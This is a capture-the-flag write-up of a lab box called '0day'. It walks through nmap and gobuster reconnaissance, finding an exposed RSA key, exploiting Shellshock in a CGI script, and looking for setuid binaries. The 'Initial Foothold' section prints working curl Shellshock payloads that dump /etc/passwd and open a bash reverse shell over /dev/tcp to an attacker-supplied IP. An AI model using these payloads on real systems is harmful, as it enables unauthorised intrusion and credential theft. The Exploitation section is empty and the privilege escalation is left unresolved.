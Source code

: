 # 0day

## Description


## Recon

To start, let's run nmap:

```
$  nmap -sV -sC -T4 $IP -oN nmap_scan.txt        
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-14 13:47 EDT
Nmap scan report for 10.10.141.218
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol
2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0day
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at
https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.31 seconds
```

We see that port 22 (ssh) and 80 (http) are open. Note the version of OpenSSH is
an outdated one. Perhaps we can exploit this later?

The website is of a developer's portfolio page:

![landing-page](./screenshots/landing-page.png)

I checked robots.txt and was greeted with the below message:

![robots](./screenshots/robots-txt.png)

No low hanging fruit here! My next course of action was running gobuster to find
any hidden folders.

```
$ gobuster dir -u http://$IP:80 -w
/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.141.218:80
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:
/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/03/14 13:51:49 Starting gobuster in directory enumeration mode
===============================================================
/cgi-bin              (Status: 301) [Size: 315] [--> http://10.10.141.218/cgi-bin/]
/img                  (Status: 301) [Size: 311] [--> http://10.10.141.218/img/]    
/uploads              (Status: 301) [Size: 315] [--> http://10.10.141.218/uploads/]
/admin                (Status: 301) [Size: 313] [--> http://10.10.141.218/admin/]  
/css                  (Status: 301) [Size: 311] [--> http://10.10.141.218/css/]    
/js                   (Status: 301) [Size: 310] [--> http://10.10.141.218/js/]     
/backup               (Status: 301) [Size: 314] [--> http://10.10.141.218/backup/] 
/secret               (Status: 301) [Size: 314] [--> http://10.10.141.218/secret/
                                                                                   
===============================================================
2021/03/14 14:21:45 Finished
===============================================================
```

Lots of interesting folders. The only one that had actionable information was
/backup. 

![rsa key](./screenshots/rsa-key.png)

We see that there is a private RSA key here! An RSA key can be used to log into
SSH without a password.

## Initial Foothold

Get /etc/passwd
```
$ curl -A "() { :;}; echo Content-Type: text/html; echo; /bin/cat /etc/passwd;"
http://$IP/cgi-bin/test.cgi
```

Pop a reverse shell (Assuming you have a netcat listener running on port 4444)

```
$ curl -A "() { :;}; echo Content-Type: text/html; /bin/bash -i >&
/dev/tcp/$YOUR_IP/4444 0>&1" http://10.10.58.205/cgi-bin/test.cgi"})" 
```

## Exploitation




## Privilege Escalation

I used the ```find``` command to look for programs with the setuid bit enabled.
This would allow us to run those commands as the root user.

```
$ find / -perm -u=s -type f 2>/dev/null
...
...
/usr/bin/mtr
...
```

The mtr command is interesting. It has an entry in GTFObins, but I couldn't get
it to read the root file.

